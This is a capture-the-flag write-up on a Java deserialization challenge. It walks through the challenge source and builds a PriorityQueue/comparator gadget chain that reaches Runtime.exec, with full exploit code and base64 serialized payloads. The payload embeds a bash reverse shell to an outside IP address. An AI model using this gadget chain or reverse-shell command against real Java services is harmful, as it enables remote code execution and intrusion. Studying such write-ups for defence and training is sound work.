





# BrokenParr0t

As one could guess from the challenge title, this was whitebox Java deserialization challenge where the deserialization classes were limited. The solution was to built a custom gadget chain from custom classes allowed in whitelist. The exploit had two phases and consisted of two deserializations in two different security context.

Challenge had a web interface where you could submit and view questions.



Posting a question resulted in error, 



but interesting cookie showed up in burp.



This `latest_question` cookie looks like base64 encoded serialized Java object, and indeed it is.



okay, so we can supply arbitrary base64 encoded serialized object, lets have a look at the source code to see what can we do from here.

`QuestionController.java` is a piece of code that handles questions, so lets see how does it handle the cookie.

```java
package com.securinets.controllers;

import javax.servlet.http.Cookie;
import java.io.OutputStream;
import java.io.ObjectOutputStream;
import java.io.ByteArrayOutputStream;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestMapping;
import java.io.IOException;
import com.securinets.entities.Question;
import java.io.InputStream;
import com.securinets.services.Security;
import java.io.ByteArrayInputStream;
import java.util.Base64;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.CookieValue;
import org.springframework.beans.factory.annotation.Autowired;
import com.securinets.services.QuestionService;
import org.springframework.stereotype.Controller;

@Controller
public class QuestionController
{
    private QuestionService questionService;
    
    @Autowired
    public void setQuestionService(final QuestionService questionService) {
        this.questionService = questionService;
    }
    
    @RequestMapping(value = { "/latest_question" }, method = { RequestMethod.GET })
    public String list(@CookieValue(value = "latest_question", defaultValue = "") final String latest_question, final Model model) {
        if (latest_question.length() == 0) {
            model.addAttribute("latest_question", (Object)"No recent question detected");
        }
        else {
            try {
                final byte[] decodedBytes = Base64.getDecoder().decode(latest_question);
                final ByteArrayInputStream ini = new ByteArrayInputStream(decodedBytes);
                final Security inp = new Security((InputStream)ini);
                Question result = null;
                result = (Question)inp.readObject();
                model.addAttribute("latest_question", (Object)result.getQuestion());
            }
            catch (IllegalArgumentException ex) {
                model.addAttribute("latest_question", (Object)"An Error has occured");
                ex.printStackTrace();
            }
            catch (IOException e) {
                model.addAttribute("latest_question", (Object)"An Error has occured");
                e.printStackTrace();
            }
            catch (ClassNotFoundException e2) {
                model.addAttribute("latest_question", (Object)"An Error has occured");
                e2.printStackTrace();
            }
        }
        return "questions";
    }
    
    @RequestMapping({ "/question/new" })
    public String newQuestion(final Model model) {
        return "questionform";
    }
    
    @RequestMapping(value = { "/question" }, method = { RequestMethod.POST })
    public String saveQuestion(final HttpServletResponse response, final HttpServletRequest req) {
        final Question question = new Question(req.getParameter("question"), req.getParameter("category"), req.getParameter("anime"));
        this.questionService.saveQuestion(question);
        final ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        try {
            final ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(question);
            objectOutputStream.close();
            final String cookie = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
            final Cookie latest_question = new Cookie("latest_question", cookie);
            response.addCookie(latest_question);
        }
        catch (IOException e) {
            final Cookie latest_question2 = new Cookie("latest_question", "");
            e.printStackTrace();
            response.addCookie(latest_question2);
        }
        return "redirect:/latest_question";
    }
}
```

so it is deserializing the object, but in context of `Security`, lets have a look at what that does.

```java
package com.securinets.services;

import java.io.InvalidClassException;
import java.util.regex.Pattern;
import java.io.ObjectStreamClass;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;

public class Security extends ObjectInputStream
{
    public Security(final InputStream inputStream) throws IOException {
        super(inputStream);
    }
    
    @Override
    protected Class<?> resolveClass(final ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        if (!Pattern.matches("(java\\.(.*))|(com\\.securinets\\.utils\\.(.*))", desc.getName())) {
            throw new InvalidClassException("Unauthorized deserialization attempt", desc.getName());
        }
        return super.resolveClass(desc);
    }
}
```

only classes `java.*` and `com.securinets.utils` are allowed for deserialization. The latter is oddly specific, and in that package there is just one class - `QuestionCompar.java`.

```java
package com.securinets.utils;

import java.io.IOException;
import com.securinets.services.Author;
import java.io.InputStream;
import com.securinets.services.LooseSecurity;
import java.io.ByteArrayInputStream;
import java.util.Base64;
import java.util.Comparator;
import java.io.Serializable;

public class QuestionCompar implements Serializable, Comparator<Object>
{
    private String internal; 
    private static final long serialVersionUID = 1L;
    
    @Override
    public int compare(final Object one, final Object two) {
        try {
            final byte[] decodedBytes = Base64.getDecoder().decode(this.internal);
            final ByteArrayInputStream ini = new ByteArrayInputStream(decodedBytes);
            final LooseSecurity a = new LooseSecurity((InputStream)ini);
            final Author res = (Author)a.readObject();
            if (res.old == 1) {
                return 1;
            }
            return 0;
        }
        catch (IOException | ClassNotFoundException ex) {
            final Exception e = ex;
            e.printStackTrace();
            return -1;
        }
    }
}
```

now that looks promising! `LooseSecurity`! This class implements the `Comparator` interface and has overriden implementation of `compare` function, which is used to compare instances of `Object` class in this case. Later it the code its trying to cast deserialized object into instance of `Author` class. lets have a look at those two classes, `LooseSecurity` and `Author`. The variable (`internal`) containing the payload supposed to be deserialized is however private and the class has no constructor or setter.

```java
package com.securinets.services;

import java.io.InvalidClassException;
import java.util.regex.Pattern;
import java.io.ObjectStreamClass;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;

public class LooseSecurity extends ObjectInputStream
{
    public LooseSecurity(final InputStream inputStream) throws IOException {
        super(inputStream);
    }
    
    @Override
    protected Class<?> resolveClass(final ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        if (!Pattern.matches("(com\\.securinets\\.(.*))|(java\\.(.*))|(java\\.time\\.(.*))", desc.getName())) {
            throw new InvalidClassException("Unauthorized deserialization attempt", desc.getName());
        }
        return super.resolveClass(desc);
    }
}
```
With `LooseSecurity` we can use any classes inside `com.securinets.*`, keep that in mind and lets have a look at the `Author` class in the meantime.

```java
package com.securinets.services;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Author implements Serializable
{
    private static final long serialVersionUID = 1L;
    private String name;
    public int old;
    private String uuid;
    
    private void readObject(final ObjectInputStream ois) throws ClassNotFoundException, IOException {
        ois.defaultReadObject();
        this.compute();
    }
    
    public int compute() {
        try {
            if (this.uuid.hashCode() == 0) {
                Runtime.getRuntime().exec(this.name);
                return 0;
            }
            return Integer.parseInt(this.uuid);
        }
        catch (IOException e) {
            e.printStackTrace();
            return -1;
        }
    }
}
```

now this is wild, `Author` class implements custom `readObject` method, so while deserializing to this object, it will not only perform the default behaviour (`ois.defaultReadObject()`), but also call `compute()` function, which takes private variable `name` (notice that the class has no constructor/setter and the field has no value) and if `hashCode()` of `Author`'s `uuid` variable results in `0`, we got RCE via `Runtime.getRuntime().exec()`. 

Lets do a short recap:

- We can send serialized base64 encoded objects
- `Security` only allow deserialization of `com.securinets.utils.*` or `java.*`
- There is another deserialization in `com.securinets.utils.QuestionCompar`'s `compare()` function, but this time with `LooseSecurity`
- `LooseSecurity` allows `com.security.*`, which means we can also deserialize `Author` objects
- Classes are using private variables that are empty and there are no constructors/setters

Challenges
- How to supply values to classes `Author` and `QuestionCompar`?
- How to make a gadget out of `QuestionCompar`? Meaning, how can we invoke its `compare()` method during deserialization?
- How to make string's `hashCode` returns `0` ?

Solution to first problem is suprisingly easy, simply supplying value directly in the Java classes works while serialization and the objects are serialized as if they were constructed with those values. Solution to the second problem is the key idea of this challenge. Solution to the third problem was also suprisingly easy, intended solution was to reverse the custom hashCode algo used in the challenge, but I was too lazy to even consider this and instead found out that empty strings return zero in 1 minute of googling.

At this point I had no idea how to solve the second problem, so I though about it logically, what can call compare during (de)serialization. The `QuestionCompar` implements `Comparator` interface, that means we can use it in sorted structures like `Map`s and that should invoke its `compare()` function, since it need to compare stuff when adding into sorted list, riight?

So I used a short java code to serialize and b64 encode instance of `TreeMap` with `QuestionCompar` as its comparator. Then I've added two elements of type `Object` and serialized the map.
```java
TreeMap<Object, Object> map = new TreeMap<>(new QuestionCompar());
Object qc = new Object();
map.put(qc,qc);
```

before the serialization, I've also added DNS lookup payload from `ysoserial` into the `private` variable of the comparator, so it would be reflected into the serialized object, like this:
```java
...

public class QuestionCompar implements Serializable, Comparator<Object>
{
    private String internal = "rO0...AA"; 
    private static final long serialVersionUID = 1L;
    
    ...
}
```

running my exploit class locally revealed that `compare()` is being called, but just in insertion into the list, not to mention it was not called during deserialization.
```
javac Exploit.java && java Main
CALLED COMPARE!!!!!!!!!!!!!!!!!!!!
Serialized object: rO0ABXNyABFqYXZhLnV0aWwuVHJlZU1hcAzB9j4tJWrmAwABTAAKY29tcGFyYXRvcnQAFkxqYXZhL3V0aWwvQ29tcGFyYXRvcjt4cHNyACNjb20uc2VjdXJpbmV0cy51dGlscy5RdWVzdGlvbkNvbXBhcgAAAAAAAAABAgABTAAIaW50ZXJuYWx0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQA9HJPMEFCWE55QUI1amIyMHVjMlZqZFhKcGJtVjBjeTV6WlhKMmFXTmxjeTVCZFhSb2IzSUFBQUFBQUFBQUFRSUFBMGtBQTI5c1pFd0FCRzVoYldWMEFCSk1hbUYyWVM5c1lXNW5MMU4wY21sdVp6dE1BQVIxZFdsa2NRQitBQUY0Y0FBQUFBQjBBRXRqZFhKc0lHaDBkSEE2THk5aE9HcHdZV0pqY2pad1pHczJaWFoxY0hRelkySTFZWFZuYkcxd1lXVXVZblZ5Y0dOdmJHeGhZbTl5WVhSdmNpNXVaWFF2WVhWMGFHOXlhR1ZzYkc5MEFBQT13BAAAAAFzcQB+AANxAH4ABnEAfgAHeA==
DESERIALIZING PAYLOAD..
```


The trick here was to find a Java class, that given custom comparator, will call its `compare()` function while deserialization. It took me a while, but I found some blackhat presentation from 2016 that showed PoC with `PriorityQueue` class, which actually calls compare while deserialization.

So this was my `Exploit.java` class.
```java
import com.securinets.utils.QuestionCompar;
import java.lang.Object;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;
import java.util.Map;
import java.util.TreeMap;
import java.util.HashMap;
import com.securinets.services.Author;
import java.util.PriorityQueue;


class Main {
    public static void main(String[] args) throws Exception {     

        // We need two Serializable, allowed objects   
        QuestionCompar qc = new QuestionCompar();
        QuestionCompar qc2 = new QuestionCompar();

        // This is the gadget queue which calls compare() during deserialization
        PriorityQueue<QuestionCompar> pwnQueue = new PriorityQueue<>(new QuestionCompar());
        pwnQueue.add(qc);
        pwnQueue.add(qc2);

        String serializedObject = serialize(pwnQueue);
        System.out.println("Serialized object: " + serializedObject);

        // Local tests
        PriorityQueue deserializedObject = deserialize(serializedObject);
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        System.out.println("DESERIALIZING PAYLOAD..");
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

Compiling and running this class reveals that it indeed triggered during deserialization.
```
javac Exploit.java && java Main                                                                                             
CALLED COMPARE!!!!!!!!!!!!!!!!!!!!
Serialized object: rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAI2NvbS5zZWN1cmluZXRzLnV0aWxzLlF1ZXN0aW9uQ29tcGFyAAAAAAAAAAECAAFMAAhpbnRlcm5hbHQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdADock8wQUJYTnlBQjVqYjIwdWMyVmpkWEpwYm1WMGN5NXpaWEoyYVdObGN5NUJkWFJvYjNJQUFBQUFBQUFBQVFJQUEwa0FBMjlzWkV3QUJHNWhiV1YwQUJKTWFtRjJZUzlzWVc1bkwxTjBjbWx1Wnp0TUFBUjFkV2xrY1FCK0FBRjRjQUFBQUFCMEFFTmlZWE5vSUMxaklDUkFmR0poYzJnZ01DQmxZMmh2SUdKaGMyZ2dMV2tnUGlZZ0wyUmxkaTkwWTNBdk15NHhNek11TWpBM0xqRXhNQzh4TXpnMk55QXdQaVl4ZEFBQXcEAAAAA3NxAH4AA3EAfgAGc3EAfgADcQB+AAZ4
DESERIALIZING PAYLOAD..
CALLED COMPARE!!!!!!!!!!!!!!!!!!!!
Exception in thread "main" java.lang.ClassCastException: class java.util.PriorityQueue cannot be cast to class java.util.TreeMap (java.util.PriorityQueue and java.util.TreeMap are in module java.base of loader 'bootstrap')
        at Main.main(Exploit.java:40)
```


Now, since we have deserialization in `LooseSecurity` context, we can serialize a instance of `Author` with payload in `name` variable, so lets edit the `Author.java` file like this:

```java
public class Author implements Serializable
{
    private static final long serialVersionUID = 1L;
    private String name = "bash -c $@|bash 0 echo bash -i >& /dev/tcp/3.133.207.110/13867 0>&1";
    public int old = 0;
    private String uuid = ""; // Empty string -> hashCode == 0
    
    ...
```

Now, use the exploit class to serialize instance of Author:
```java
Author a = new Author();
String serializedObject = serialize(a);
System.out.println("Serialized object: " + serializedObject);
```

This will give us reverse shell when deserialized in `LooseSecurity`, this will give you base64 encoded payload, paste this payload as value to `internal` field in `QuestionCompar`:
```java
public class QuestionCompar implements Serializable, Comparator<Object>
{
    private String internal = "rO0ABXNyAB5jb20uc2VjdXJpbmV0cy5zZXJ2aWNlcy5BdXRob3IAAAAAAAAAAQIAA0kAA29sZEwABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMAAR1dWlkcQB+AAF4cAAAAAB0AENiYXNoIC1jICRAfGJhc2ggMCBlY2hvIGJhc2ggLWkgPiYgL2Rldi90Y3AvMy4xMzMuMjA3LjExMC8xMzg2NyAwPiYxdAAA"; 
    ...
    
```

Now, go back to `Exploit.java` and use the original queue gadget to construct the final payload:
```java
public static void main(String[] args) throws Exception {     

    // We need two Serializable, allowed objects   
    QuestionCompar qc = new QuestionCompar();
    QuestionCompar qc2 = new QuestionCompar();

    // This is the gadget queue which calls compare() during deserialization
    PriorityQueue<QuestionCompar> pwnQueue = new PriorityQueue<>(new QuestionCompar());
    pwnQueue.add(qc);
    pwnQueue.add(qc2);

    String serializedObject = serialize(pwnQueue);
    System.out.println("Serialized object: " + serializedObject);

    // Local tests
    PriorityQueue deserializedObject = deserialize(serializedObject);

    ...
}
```

compile and run this, send this generated payload as cookie value `latest_question` to path `/latest_question` and voila, you will get a reverse shell.

